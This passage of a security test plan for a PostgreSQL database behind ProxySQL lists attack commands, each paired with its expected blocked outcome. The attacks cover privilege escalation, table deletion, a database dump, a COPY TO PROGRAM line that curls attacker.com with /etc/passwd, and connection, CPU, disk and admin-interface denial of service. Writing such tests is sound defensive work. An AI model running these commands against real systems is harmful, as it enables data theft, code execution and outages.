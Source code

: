 ### Phase 3: Authorization Testing

```bash
# 1. Privilege escalation
psql "postgresql://app_user:password@proxysql.railway.app:5432/postgres" -c "CREATE USER hacker SUPERUSER;"
# Should: Fail (app user should not have SUPERUSER)

# 2. Data access beyond permissions
psql "postgresql://readonly:password@proxysql.railway.app:5432/postgres" -c "DELETE FROM sensitive_data;"
# Should: Fail (readonly user can't DELETE)

# 3. Cross-database access
psql "postgresql://app_user:password@proxysql.railway.app:5432/template1"
# Should: Fail (app user should only access 'postgres' database)
```

### Phase 4: Data Exfiltration

```bash
# 1. Dump entire database
pg_dump "postgresql://app_user:password@proxysql.railway.app:5432/postgres" > /tmp/dump.sql
# Should: Timeout or rate-limit for large dumps

# 2. COPY TO FILE (PostgreSQL admin command)
psql "postgresql://app_user:password@proxysql.railway.app:5432/postgres" \
  -c "COPY (SELECT * FROM users) TO '/tmp/stolen_data.csv';"
# Should: Fail (COPY TO FILE requires superuser)

# 3. COPY TO PROGRAM (remote code execution)
psql "postgresql://app_user:password@proxysql.railway.app:5432/postgres" \
  -c "COPY (SELECT '') TO PROGRAM 'curl attacker.com/steal?data=$(cat /etc/passwd)';"
# Should: Fail (COPY TO PROGRAM requires superuser)
```

### Phase 5: Denial of Service

```bash
# 1. Connection exhaustion
for i in {1..1000}; do
  psql "postgresql://app_user:password@proxysql.railway.app:5432/postgres" -c "SELECT pg_sleep(3600);" &
done
# Should: ProxySQL connection limit prevents exhaustion

# 2. Resource exhaustion (CPU)
psql "postgresql://app_user:password@proxysql.railway.app:5432/postgres" \
  -c "SELECT COUNT(*) FROM generate_series(1, 999999999) a, generate_series(1, 999999999) b;"
# Should: Query timeout or statement_timeout kills query

# 3. Disk exhaustion
psql "postgresql://app_user:password@proxysql.railway.app:5432/postgres" \
  -c "CREATE TABLE bloat AS SELECT * FROM generate_series(1, 999999999);"
# Should: Disk quota or Railway resource limits prevent

# 4. ProxySQL admin DoS (if exposed)
curl -X POST http://proxysql.railway.app:6132/admin \
  -d "LOAD MYSQL SERVERS TO RUNTIME; SAVE MYSQL SERVERS TO DISK;" \
  -H "Content-Type: application/sql" --max-time 1 &
# Repeat 1000x - should be blocked (admin interface not public)
```
